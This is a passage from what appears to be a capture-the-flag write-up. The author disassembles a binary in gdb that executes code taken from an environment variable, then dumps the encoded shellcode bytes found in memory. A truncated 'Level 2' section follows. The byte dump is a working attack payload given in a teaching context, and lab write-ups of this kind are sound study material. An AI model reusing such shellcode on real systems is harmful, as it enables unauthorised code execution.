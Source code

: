 >Now let's take some time to understand how it works.
   I want to see how the shellcode looks inside the program. So let's fire up gdb and inspect the memory.

```ruby
(gdb) disas main
Dump of assembler code for function main:
   0x08049196 <+0>: push   ebp
   0x08049197 <+1>: mov    ebp,esp
   0x08049199 <+3>: sub    esp,0x4
   0x0804919c <+6>: push   0x804a008
   0x080491a1 <+11>: call   0x8049050 <getenv@plt>
   0x080491a6 <+16>: add    esp,0x4
   0x080491a9 <+19>: test   eax,eax
   0x080491ab <+21>: jne    0x80491c1 <main+43>
   0x080491ad <+23>: push   0x804a00c
   0x080491b2 <+28>: call   0x8049060 <puts@plt>
   0x080491b7 <+33>: add    esp,0x4
   0x080491ba <+36>: push   0x1
   0x080491bc <+38>: call   0x8049070 <exit@plt>
   0x080491c1 <+43>: push   0x804a041
   0x080491c6 <+48>: call   0x8049060 <puts@plt>
   0x080491cb <+53>: add    esp,0x4
   0x080491ce <+56>: push   0x804a008
   0x080491d3 <+61>: call   0x8049050 <getenv@plt>
   0x080491d8 <+66>: add    esp,0x4
   0x080491db <+69>: mov    DWORD PTR [ebp-0x4],eax
   0x080491de <+72>: mov    eax,DWORD PTR [ebp-0x4]
   0x080491e1 <+75>: call   eax
   0x080491e3 <+77>: mov    eax,0x0
   0x080491e8 <+82>: leave  
   0x080491e9 <+83>: ret
```

I will break at main+75 and look what the memory holds at $eax.
Now lets see how it looks in memory:
```Ruby
(gdb) x/50xb $eax
0xffffde7e: 0xeb 0x11 0x5e 0x31 0xc9 0xb1 0x21 0x80
0xffffde86: 0x6c 0x0e 0xff 0x01 0x80 0xe9 0x01 0x75
0xffffde8e: 0xf6 0xeb 0x05 0xe8 0xea 0xff 0xff 0xff
0xffffde96: 0x6b 0x0c 0x59 0x9a 0x53 0x67 0x69 0x2e
0xffffde9e: 0x71 0x8a 0xe2 0x53 0x6b 0x69 0x69 0x30
0xffffdea6: 0x63 0x62 0x74 0x69 0x30 0x63 0x6a 0x6f
0xffffdeae: 0x8a 0xe4
```

Great! this is our shellcode! It works just as expected.

## Level 2

I was stuck on this challenge for over two weeks, because I couldn't find a shellcode that will work. After numerous tries I found one that worked. The writeup for this level will be partial because I could stand another second of it.
